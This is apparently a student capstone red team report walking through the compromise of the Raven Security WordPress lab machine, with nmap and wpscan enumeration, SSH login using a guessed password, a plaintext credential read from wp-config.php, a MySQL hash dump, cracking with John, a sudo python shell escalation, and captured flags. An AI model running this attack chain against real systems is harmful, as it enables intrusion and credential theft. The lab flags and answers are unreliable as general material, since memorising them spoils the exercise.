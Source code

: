 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Step 1: Scan the network to identify the IP addresses of Target 1

`nmap -sP 192.168.1.1-255`

[nmap IP Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_IPs_Target1.PNG "nmap IP Scan results")

`nmap -sV 192.168.1.110`

Step 2: Document all exposed ports and services.

[nmap Port Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_Ports_Target1.PNG "nmap Port Scan results")

Due to `port 80` being open, we went directly to the website via p`ort 80` `192.168.1.110:80` and discovered that Raven Security is a WordPress Commenter, giving us the clue to run the wordpress scan. 

[WordPress Screenshot](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/wordpress_port80_raven_security.PNG")

This scan identifies the services below as potential points of entry:
- Target 1
  - `port 22` - SSH
  - `port 80` - HTTP

### Vulnerabilities

The following vulnerabilities were identified on each target:

#### CVE-1999-0013 Stolen Credentials [link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0013 "reference")
Stolen credentials from SSH clients via ssh-agent program, allowing other local users to access remote accounts belonging to the ssh-agent user.

Guessed, weak, or default password: Access gained to user michael due to the weak or default password of “michael”.

#### CWE-521: Weak Password Requirements [link](https://cwe.mitre.org/data/definitions/521.html "reference")
The product does not require that users should have strong passwords, which makes it easier for attackers to compromise user accounts. Authentication mechanisms often rely on a memorized secret (also known as a password) to provide an assertion of identity for a user of a system. It is therefore important that this password be of sufficient complexity and impractical for an adversary to guess. The specific requirements around how complex a password needs to be depends on the type of system being protected. Selecting the correct password requirements and enforcing them through implementation are critical to the overall success of the authentication mechanism.

#### CWE-759: Use of a One-Way Hash without a Salt. [link](https://cwe.mitre.org/data/definitions/759.html "reference")
The software uses a one-way cryptographic hash against an input that should not be reversible, such as a password, but the software does not also use a salt as part of the input. This makes it easier for attackers to pre-compute the hash value using dictionary attack techniques such as rainbow tables.
It should be noted that, despite common perceptions, the use of a good salt with a hash does not sufficiently increase the effort for an attacker who is targeting an individual password, or who has a large amount of computing resources available, such as with cloud-based services or specialized, inexpensive hardware. Offline password cracking can still be effective if the hash function is not expensive to compute; many cryptographic functions are designed to be efficient and can be vulnerable to attacks using massive computing resources, even if the hash is cryptographically strong. The use of a salt only slightly increases the computing requirements for an attacker compared to other strategies such as adaptive hash functions. See CWE-916 for more details.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data (listed in chronological order):

**Exploit**
- User michael used their username as their password
  - `wpscan –-url http://192.168.1.110/wordpress -eu`
  - [Users Identified](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/Kali_Users_Identified.PNG "Users Identified")
  - `ssh michael@192.168.1.110`
  - [login as michael](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_michael.PNG "Login_Michael")

**Flag #2**
-  Flag #2 {fc3fd58dcdad9ab23faca6e9a36e581c} 
  - `cd /var/www`
  - `cat flag2.txt`
  - [Flag 2](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag2.PNG "Flag 2")

**Flag #1**
- Flag #1 {b9bbcb33e11b80be759c4e844862482d}
  - `grep -RE flag html`
  - [Flag 1](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag1.PNG "Flag 1")

**Exploit**
- MySQL server login credentials in plain text found in wp-config.php file.
  - `cat /var/www/html/wordpress/wp-config.php`
    - Password: R@v3nSecurity
  - [MySQL DB Password](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_DB_password.PNG "MySQL DB Password")

**Exploit**
- MySQL server login credentials in plain text found in wp-config.php file.
  - `mysql -u root -p`
  - `mysql> use wordpress;`
  - `mysql> select * from wp_users;`
  - Password: R@v3nSecurity
  - [user password hashes](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_wp_users.PNG "user password hashes")

**Flag #3**
- Flag #3 {afc01ab56b50591e7dccf93122770cd2} 
  - [Flag 3](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wp_posts_flags.PNG "Flag 3")

**Exploit**
- Use John to crack the passwords and login as users.
- `nano wp_hashes.txt`
  - `michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0`
  - `steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/`
- `john wp_hashes.txt`
  - Steven: pink84
- [login as steven](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_steven.PNG "login as steven")

**Exploit**
- Spawn Shell → python sudo privileges
- `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
- [escalated privileges](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "escalated privileges")

**Flag #4**
- Flag #4 {715dea6c055b9fe3337544932f2941ce}
  - `cd ../..`
  - `cat flag4.txt`
  - [Flag 4](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "Flag 4")

